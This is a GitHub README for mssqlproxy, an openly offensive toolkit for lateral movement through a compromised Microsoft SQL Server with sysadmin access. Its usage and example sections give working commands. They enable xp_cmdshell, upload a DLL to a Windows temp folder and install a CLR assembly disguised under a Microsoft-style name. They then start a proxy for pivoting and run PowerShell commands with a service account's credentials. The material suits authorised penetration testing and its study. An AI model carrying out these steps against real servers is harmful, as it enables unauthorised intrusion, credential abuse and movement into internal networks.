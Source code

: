 # mssqlproxy
 [![](https://img.shields.io/badge/Category-Lateral%20Movement-E5A505?style=flat-square)]() [![](https://img.shields.io/badge/Language-.NET%20%2f%20C%20%2f%20Python-E5A505?style=flat-square)]()

forked from [blackarrowsec/mssqlproxy](https://github.com/blackarrowsec/mssqlproxy)


**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.

<p align="center">
  <img src="scenario.png" width="720" >
</p>


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

It consists of three parts:
*  **CLR assembly**: Compile assembly.cs
*  **Core DLL**: Compile reciclador.sln
*  **Client**: mssqlclient.py (based on Impacket's example)

You can compile the libraries or download them from [releases](https://github.com/blackarrowsec/mssqlproxy/releases) (x64).


Compilation
------------

To generate the core DLL, just import the project to Visual Studio (reciclador.sln) and compile it.

To generate the CLR assembly, first you need to find the C# compiler:
```powershell
Get-ChildItem -Recurse "C:\Windows\Microsoft.NET\" -Filter "csc.exe" | Sort-Object fullname -Descending | Select-Object fullname -First 1 -ExpandProperty fullname
```

Then,
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library .\assembly.cs
```


Usage
------------
Once the two libraries are compiled, upload the core DLL (reciclador) to the target server.

Authentication options are the same as the ones in [the original mssqlclient](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py). **mssqlproxy** options:

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.

Once the proxy is started, you can plug in your proxychains ;)

[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.


Example
------------

Prepare
```bash
mv assembly.dll Microsoft.SqlServer.Proxy.dll
export username='sa'
export password='#mssql_s3rV1c3!2020'
export ip_mssql='10.10.10.240'
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\windows\temp\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\windows\temp\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
SQL> powershell -c "$pass = convertto-securestring '#mssql_s3rV1c3!2020' -asplaintext -force;$cred = new-object system.management.automation.pscredential('licordebellota\svc_mssql', $pass);invoke-command -computername 127.0.0.1 -credential $cred -scriptblock {whoami}"
```


Authors
---------------
Pablo Martinez ([@xassiz](https://twitter.com/xassiz)), Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL)) [ [www.blackarrow.net](http://blackarrow.net/) - [www.tarlogic.com](https://www.tarlogic.com/en/) ]


References
---------------

* https://www.blackhat.com/presentations/bh-asia-03/bh-asia-03-chong.pdf
* https://blog.netspi.com/attacking-sql-server-clr-assemblies/
* https://www.codeproject.com/Articles/27298/Dynamic-Invoke-C-DLL-function-in-C
* https://x-c3ll.github.io/posts/Pivoting-MySQL-Proxy/
* https://docs.microsoft.com/en-us/sql/ado/reference/ado-api/stream-object-ado
* https://docs.microsoft.com/es-es/sql/t-sql/functions/openrowset-transact-sql

License
-------

All the code included in this project is licensed under the terms of the MIT license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)
